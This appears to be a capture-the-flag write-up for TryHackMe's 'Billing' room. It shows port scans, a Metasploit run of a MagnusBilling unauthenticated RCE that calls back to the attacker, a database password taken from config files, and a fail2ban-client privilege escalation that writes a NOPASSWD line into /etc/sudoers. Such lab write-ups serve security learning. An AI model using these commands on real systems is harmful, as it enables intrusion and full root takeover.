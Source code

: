 ```yaml
---
title: "Billing"
date: 2024-03-08
draft: false
description: TryHackMe's Good Room
Tags:
- TryHackMe
- Linux
- Easy
---
```




## Enumeration

```
rustscan -a 10.10.179.166           
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Real hackers hack time ⌛

[~] The config file is expected to be at "/home/k21/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.179.166:22
Open 10.10.179.166:80
Open 10.10.179.166:3306
Open 10.10.179.166:5038
[~] Starting Script(s)
[~] Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-08 03:23 +0545
Initiating Ping Scan at 03:23
Scanning 10.10.179.166 [4 ports]
Completed Ping Scan at 03:23, 0.19s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 03:23
Completed Parallel DNS resolution of 1 host. at 03:23, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 2, OK: 1, NX: 0, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 03:23
Scanning 10.10.179.166 (10.10.179.166) [4 ports]
Discovered open port 80/tcp on 10.10.179.166
Discovered open port 22/tcp on 10.10.179.166
Discovered open port 5038/tcp on 10.10.179.166
Discovered open port 3306/tcp on 10.10.179.166
Completed SYN Stealth Scan at 03:23, 0.19s elapsed (4 total ports)
Nmap scan report for 10.10.179.166 (10.10.179.166)
Host is up, received reset ttl 60 (0.17s latency).
Scanned at 2025-03-08 03:23:25 +0545 for 0s

PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 60
80/tcp   open  http    syn-ack ttl 60
3306/tcp open  mysql   syn-ack ttl 60
5038/tcp open  unknown syn-ack ttl 60

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.55 seconds
           Raw packets sent: 8 (328B) | Rcvd: 5 (216B)
```

```
nmap -sVC 10.10.179.166           
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-08 03:22 +0545
Nmap scan report for 10.10.179.166 (10.10.179.166)
Host is up (0.18s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 79:ba:5d:23:35:b2:f0:25:d7:53:5e:c5:b9:af:c0:cc (RSA)
|   256 4e:c3:34:af:00:b7:35:bc:9f:f5:b0:d2:aa:35:ae:34 (ECDSA)
|_  256 26:aa:17:e0:c8:2a:c9:d9:98:17:e4:8f:87:73:78:4d (ED25519)
80/tcp   open  http    Apache httpd 2.4.56 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/mbilling/
| http-title:             MagnusBilling        
|_Requested resource was http://10.10.179.166/mbilling/
|_http-server-header: Apache/2.4.56 (Debian)
3306/tcp open  mysql   MariaDB 10.3.23 or earlier (unauthorized)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```

Lets see port 80.
![](Pasted%20image%2020250308033038.png)

Lets try to search for possible exploits and default creds.
![](Pasted%20image%2020250308032906.png)

And there is a unauthenticated RCE on it.
Lets try to search it on meterpreter.
![](Pasted%20image%2020250308033223.png)

## Exploit

Hmm so there is possible exploit.
Lets try this.
```
use 3
set LHOST tun0
set RHOSTS machine_ip
run
```

And we can see, it worked.
![](Pasted%20image%2020250308033410.png)

Note:this might also work.
[CVE-2023-30258](https://github.com/hadrian3689/)

## Privelege Escalation

Lets enumerate further.
And doing `sudo -l`, we can see this.
![](Pasted%20image%2020250308034458.png)

But lets first of all run linpeas.sh.
Hmm root is little bit trickier.

Reading config files showed this.
![](Pasted%20image%2020250308044851.png)

And that leads to this.
![](Pasted%20image%2020250308044925.png)

We have the db password.
```
dbhost = 127.0.0.1
dbname = mbilling
dbuser = mbillingUser
dbpass = BLOGYwvtJkI7uaX5

```

Lets try to login.
`mysql -u mbillingUser -p`
![](Pasted%20image%2020250308045153.png)

Lets enumerate this too.
We got the hash but it is also a rabbithole.
![](Pasted%20image%2020250308051547.png)

After  trying different things and talking with AI.
We could this.
`sudo /usr/bin/fail2ban-client status`
So the `fail2ban-client` is the tool for making a bruteforce attacks hard.
So we will use it here to escalate our privelege.

First we will create our own action.
`sudo /usr/bin/fail2ban-client set sshd addaction myaction`

So it add the new action named myaction to the sshd jail.

Now we need to define what our custom action does.
`sudo /usr/bin/fail2ban-client set sshd action myaction actionban "echo 'asterisk ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers"`

So here, `echo 'asterisk ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers` will triggered when sshd jail is triggered.
So we set the sshd action to our action and which will do a specific action to stop or reduce attack but here we used it to escalate our privelege to root.
![](Pasted%20image%2020250308055753.png)

And now we need to trigger that jail, So we can try to do failed ssh or use hydra for it.
![](Pasted%20image%2020250308060200.png)

And now if it is successful,we can see like this.
![](Pasted%20image%2020250308055859.png)

Now we can easily become root.
![](Pasted%20image%2020250308060038.png)

## Done

And done.
![](Pasted%20image%2020250308060453.png)

And learned lots of things again.

`MgnodcVwGxW0xLUN`

